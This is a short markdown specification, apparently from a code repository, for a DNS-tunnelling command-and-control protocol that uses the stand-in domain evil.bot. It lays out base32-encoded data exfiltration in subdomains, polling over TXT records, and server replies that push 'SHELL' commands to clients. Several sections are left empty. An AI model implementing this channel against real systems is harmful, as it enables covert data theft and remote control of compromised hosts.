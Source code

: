 # Domain

evil.bot

# CLIENT -> SERVER

## ENCODING

- Data: Base32 in subdomain
  - The whole data block is one base32 String (minimum padding)
- Commands: Plaintext
- ClientID: Plaintext


### END OF MESSAGE

- 0.[...].evil.bot

## MESSAGE

### A
#### Request ID

- Polling ohne id
- requestid.evil.bot

#### Data
- send data to server

##### Head
- \<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot
- 0.\<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot
  - optional: body request signals end of head

#### Body

- \<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot
- 0.\<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot

### TXT

#### Poll

- polling
- poll.\<ClientID>.evil.bot

#### Continue

- continue data transmission
- continue.\<ClientID>.evil.bot

#### Curl

- curl a webpage
- 0.\<base32>\<webpage>.[...].\<base32>\<webpage>.curl.\<ClientID>.evil.bot


## SEQUENCE DIAGRAM


# SERVER -> CLIENT

## ENCODING

## RESPONSES

### A

#### Request ID

- 10.\<random>.\<random>.\<ClientID>

#### Data

- \<random != 10>.\<random>.\<random>.\<random>

### TXT

#### Poll

##### Noting

- NOTHING

##### Data

- DATA\<space>\<data>

##### shell command

- SHELL\<space>\<command>


#### Continue

##### Noting

- NOTHING

##### Data

- \<data>

##### shell command

- \<command>

## SEQUENCE DIAGRAM